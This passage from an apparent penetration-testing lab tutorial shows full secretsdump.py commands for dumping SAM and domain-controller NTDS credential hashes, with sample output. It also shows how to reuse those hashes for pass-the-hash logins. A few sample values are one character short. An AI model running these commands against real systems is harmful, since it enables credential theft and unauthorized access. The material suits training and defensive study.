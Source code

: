 ### Practical Examples

#### Scenario 1: Workstation Credential Dump
```bash
# Compromised workstation with local admin
secretsdump.py administrator:Password123@192.168.1.10

# Expected output:
# [*] Service RemoteRegistry is in stopped state
# [*] Starting service RemoteRegistry
# [*] Target system bootKey: 0x5c1e984781ca0757d8d0827d788bcf1
# [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

#### Scenario 2: Domain Controller NTDS Dump
```bash
# Domain admin credentials
secretsdump.py MARVEL.local/administrator:Password1@192.168.1.225

# Output includes all domain accounts:
# [*] Dumping Domain Credentials (domain\username:rid:lmhash:nthash)
# MARVEL.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76:::
# MARVEL.LOCAL\Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# MARVEL.LOCAL\fcastle:1001:aad3b435b51404eeaad3b435b51404ee:e6f48c2526bd594441d3da372155f6f:::
# MARVEL.LOCAL\tstark:1002:aad3b435b51404eeaad3b435b51404ee:c88e4ceb4c20c2bd024ce0cf4bd01530:::
```

#### Scenario 3: Pass the Hash with secretsdump
```bash
# Using previously dumped hash
secretsdump.py -hashes :5fbc3d5fec8206a30f4b6c473d68ae76 administrator@192.168.1.25

# Domain hash usage
secretsdump.py -hashes :e6f48c2526bd594441d3da372155f6f MARVEL.local/fcastle@192.168.1.225
```

### Understanding Output Formats

#### SAM Hash Format
```bash
# Format: username:rid:lmhash:nthash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76:::

# Breakdown:
# - Administrator: Username
# - 500: Relative ID (RID)
# - aad3b435b51404eeaad3b435b51404ee: LM hash (usually empty/disabled)
# - 5fbc3d5fec8206a30f4b6c473d68ae76: NTLM hash (what we use for pass-the-hash)
```
